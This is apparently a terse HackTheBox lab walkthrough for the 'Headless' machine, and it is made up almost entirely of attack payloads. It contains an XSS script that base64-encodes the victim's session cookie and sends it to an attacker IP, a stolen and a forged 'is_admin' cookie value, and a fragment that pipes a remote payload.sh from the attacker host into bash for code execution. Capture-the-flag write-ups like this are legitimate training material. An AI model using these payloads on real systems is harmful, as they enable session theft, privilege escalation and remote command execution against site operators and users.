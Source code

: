 # HTB Walkthrough — Machine: Headless

**Target IP:** `10.10.11.8`  

**Author:** Miguel Reis  

**Difficulty:** Easy  

**OS:** Linux

![[Headless-20240715221646971.png]]

https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e


```
<script>var i=new Image(); i.src="http://10.10.16.107/?cookie="+btoa(document.cookie);</script>
```


Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs


```
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```


```
http://10.10.16.107:8001/payload.sh|bash
```